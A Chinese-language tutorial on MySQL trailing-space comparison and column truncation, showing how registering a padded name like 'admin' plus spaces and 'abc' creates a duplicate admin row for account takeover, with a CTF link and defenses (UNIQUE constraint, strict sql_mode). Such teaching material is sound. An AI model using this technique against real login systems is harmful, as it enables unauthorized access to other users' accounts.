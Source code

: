 ### 数据库字符串比较
先来看下如下两次查询：
```
mysql> select user,host from mysql.user where user = 'root';
+------+-----------+
| user | host      |
+------+-----------+
| root | localhost |
+------+-----------+
1 row in set (0.00 sec)

mysql> select user,host from mysql.user where user = 'root     '; ----后面有5个空格
+------+-----------+
| user | host      |
+------+-----------+
| root | localhost |
+------+-----------+
1 row in set (0.00 sec)

mysql> 
```
虽然2个SQL语句中使用的匹配字符串不一样，但实际查询结果相同。

这里要介绍下数据库字符串比较的原理：
在数据库对字符串进行比较时，如果两个字符串的长度不一样，则会将较短的字符串末尾填充空格，使两个字符串的长度一致，然后在进行对比。

这样就可以理解上面的2个查询结果为什么是一样的了。

### insert截断
```
mysql> create database mytest;
Query OK, 1 row affected (0.06 sec)

mysql> use mytest
Database changed
mysql>
mysql> create table user(username varchar(10), password varchar(20));
Query OK, 0 rows affected (0.21 sec)

mysql> insert into user(username, password) values('112233445566', '1234');
Query OK, 1 row affected, 1 warning (0.16 sec)

mysql> select * from user;
+------------+----------+
| username   | password |
+------------+----------+
| 1122334455 | 1234     |
+------------+----------+
1 row in set (0.00 sec)

mysql>
```
user表在创建时指定了username字段最大长度为10，而在insert插入数据时，'112233445566'长度为12，此时就会发生字符串截断，通过查询可以看到，最后的'66'没有在username中。

#### 利用示例
```
<?php
$username = mysql_real_escape_string($_GET['username']);
$password = mysql_real_escape_string($_GET['password']);
$query = "SELECT username FROM user
          WHERE username='$username'
          AND password='$password' ";
$res = mysql_query($query, $database);
if($res) {
  if(mysql_num_rows($res) > 0){
      return $username;
  }
}
return Null;
?>
```
对于上面的验证代码，不存在SQL注入漏洞，假设存在一个admin用户，但不知道密码。
```
mysql> select * from user;
+----------+----------+
| username | password |
+----------+----------+
| admin    | not know |
+----------+----------+
```
此时就可以先注册一个用户"admin                  abc"，利用超长空格使insert时发生阶段。
```
mysql> insert into user(username, password) values('admin         abc','1234');
Query OK, 1 row affected, 1 warning (0.17 sec)

mysql> 
mysql> select *,length(username) from user;
+------------+----------+------------------+
| username   | password | length(username) |
+------------+----------+------------------+
| admin      | not know |                5 |
| admin      | 1234     |               10 |
+------------+----------+------------------+
2 rows in set (0.00 sec)

mysql> 
```
可以看到username列有两个"admin"，此时利用admin/1234即可认证成功。对应的查询语句为:
```
mysql> select username from user where username='admin' and password='1234';
+------------+
| username   |
+------------+
| admin      |
+------------+
1 row in set (0.00 sec)

mysql>
```
一道CTF题，http://47.93.190.246:49163/

#### 防范措施
* 校验用户输入

在执行insert语句之前需要先判断传人的参数是否合法，如是否长度是否过长或过短，是否包含不允许的字符类型等等。
* 对列设置unique属性
```
mysql> alter table user add unique (username);
Query OK, 0 rows affected (0.14 sec)
Records: 0  Duplicates: 0  Warnings: 0

mysql> 
mysql> desc user;
+----------+-------------+------+-----+---------+-------+
| Field    | Type        | Null | Key | Default | Extra |
+----------+-------------+------+-----+---------+-------+
| username | varchar(10) | YES  | UNI | NULL    |       |
| password | varchar(20) | YES  |     | NULL    |       |
+----------+-------------+------+-----+---------+-------+
2 rows in set (0.00 sec)

mysql> insert into user(username,password) values('123','1234');
Query OK, 1 row affected (0.09 sec)

mysql> insert into user(username,password) values('123       abc','abcd');
ERROR 1062 (23000): Duplicate entry '123       ' for key 'username'
mysql> 
```
* sql_mode设置STRICT_TRANS_TABLES
```
mysql> set @@sql_mode=STRICT_TRANS_TABLES;
Query OK, 0 rows affected, 2 warnings (0.00 sec)

mysql> insert into user(username,password) values('123       abc','abcd');
ERROR 1406 (22001): Data too long for column 'username' at row 1
mysql>
```
* sql_mode设置STRICT_ALL_TABLES
```
mysql> set @@sql_mode=STRICT_ALL_TABLES;
Query OK, 0 rows affected, 1 warning (0.00 sec)

mysql> insert into user(username,password) values('123       abc','abcd');
ERROR 1406 (22001): Data too long for column 'username' at row 1
mysql> 
```
